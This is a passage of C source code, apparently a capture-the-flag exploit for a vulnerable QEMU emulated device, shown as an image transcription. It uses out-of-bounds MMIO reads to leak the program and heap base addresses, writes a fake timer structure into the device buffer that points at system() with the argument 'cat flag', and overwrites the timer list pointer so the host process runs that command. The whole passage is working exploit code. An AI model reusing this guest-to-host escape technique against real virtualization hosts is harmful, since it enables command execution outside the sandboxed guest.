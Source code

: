 ```c

    mmio_mem = mmap(0,0x1000,PROT_READ | PROT_WRITE, MAP_SHARED, mmio_fd, 0);
    if (mmio_mem == MAP_FAILED){
        puts("mmap failed !");
        exit(-1);
    }

    uint64_t prog_base = 0;

    mmio_write(16, -0x88);
    prog_base += mmio_read(32) - 0x82b35b;
    mmio_write(16, -0x84);
    prog_base |= ((uint64_t)mmio_read(32))<<32;

    printf("[*]prog_base: 0x%lx\n", prog_base);

    uint64_t heap_base = prog_base & ~(uint64_t)0xffffffff;
    mmio_write(16, -2808);
    heap_base += mmio_read(32) - 192;
    uint64_t buf_addr = heap_base;
    printf("[*]buffer: 0x%lx\n", buf_addr);

    // leak timer
    uint64_t main_loop_tlg = prog_base + 0x14B9480;
    mmio_write(16, main_loop_tlg+8-buf_addr);
    uint64_t timer_list = (prog_base&(~(uint64_t)0xffffffff)) + mmio_read(32);
    uint64_t timer_ptr = timer_list + 0x40;

    printf("[*]timer_list: 0x%lx\n", timer_list);

    // fake timer
    uint64_t system_plt = prog_base + 0x312040;

    buffer_write(0, 0x114514);
    buffer_write(8, timer_list&0xffffffff);
    buffer_write(12, timer_list>>32);
    buffer_write(16, system_plt&0xffffffff);
    buffer_write(20, system_plt>>32);
    buffer_write(24, (buf_addr+0x30)&0xffffffff);
    buffer_write(28, (buf_addr+0x30)>>32);
    buffer_write(44, 1);
    buffer_write(48, 0x20746163); // cat\x20
    buffer_write(52, 0x67616c66); // flag
    buffer_write(56, 0);          // \0

    // 劫持 target
    int offset = timer_ptr - buf_addr;
    printf("[-]offset: %d\n", offset);
    mmio_write(16, offset);
    mmio_write(48, buf_addr&0xffffffff);

    return 0;
}
```

